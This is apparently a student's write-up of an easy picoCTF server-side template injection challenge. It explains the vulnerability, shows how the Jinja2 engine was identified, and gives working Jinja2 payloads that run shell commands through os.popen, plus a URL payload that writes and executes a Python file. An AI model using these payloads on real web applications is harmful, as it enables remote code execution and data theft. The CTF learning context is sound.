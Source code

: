 
this is an easy picoctf web challenge

what is a template?
https://en.wikipedia.org/wiki/Template_processor
lets you dynnamically generate html pages based on templates

lets you have dynamic content in a webpage with specific templating syntax

Server-side template injection vulnerabilities arise when user input is concatenated into templates rather than being passed in as data.


something like this would not be vulnerable to it (twig template)
`$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );`
because the first name isn't passed into the template

if they directly put user input into the template before it renders, that might create vulns 
ex vuln code:
`$output = $twig->render("Dear " . $_GET['name'])`

How to solve it:


First I fuzzed the announce text input by inputting ```${{<%[%'"}}%\``` (these are normally used by templating engines) and seeing if that broke the page, it did so I concluded that there was a templating engine and it was evaluating all the things I input


then I followed the following flow chart


![[Pasted image 20251010003925.png]]
(the green arrow should be followed if the expression is sucessfuly evaluated and red if not)

to arrive at it being either jinja2 or twig

I tried running `{{ config.__class__ }}` (jinja2 syntax) and   `{{ constant('PHP_VERSION') }}` (twig syntax), the twig syntax broke the site while the jinja2 syntax worked so I concluded that it was using jinja2

I looked up jinja2 payloads to find ``self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()``
which worked (insert image)

I modified the command it would run on the system to `ls` (``self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()``)

and then `cat flag
(`self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()`)


which got me the flag


http://localhost:5000/?exploit={%set%20a,b,c,d,e,f,g,h,i%20=%20request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337


{%set%20a,b,c,d,e,f,g,h,i%20=%20request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337
